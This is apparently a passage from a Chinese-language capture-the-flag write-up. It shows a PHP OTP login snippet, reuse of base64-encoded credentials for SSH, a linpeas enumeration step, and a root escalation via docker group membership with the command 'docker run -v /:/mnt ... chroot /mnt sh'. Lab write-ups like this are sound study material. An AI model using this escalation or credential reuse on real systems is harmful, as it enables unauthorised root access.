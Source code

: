 		<?php	mail($email,"OTP for authentication",$random);
			if(isset($_POST["submitOtp"]))
				{
					$otp = $_POST["otp"];
					if($otp == $random)
					{
						echo "Welcome Anurodh!";
						header("Location: authenticated.php");
					}
					else
					{
						echo "Invalid OTP";
					}
				}
 		}
		else
		{
			echo "Invalid Username or Password";
		}
        }
?>
```

从代码可知，这是验证anurodh的登录文件，密码被base64加密

这个凭证可以登录anurodh的ssh

登录进去以后传linpeas，发现当前用户在docker用户组，可以利用组权限提权
```
anurodh@ubuntu:/tmp$ id
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```

# 提权到root
```
anurodh@ubuntu:/tmp$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
# cd /root
# ls
proof.txt
```


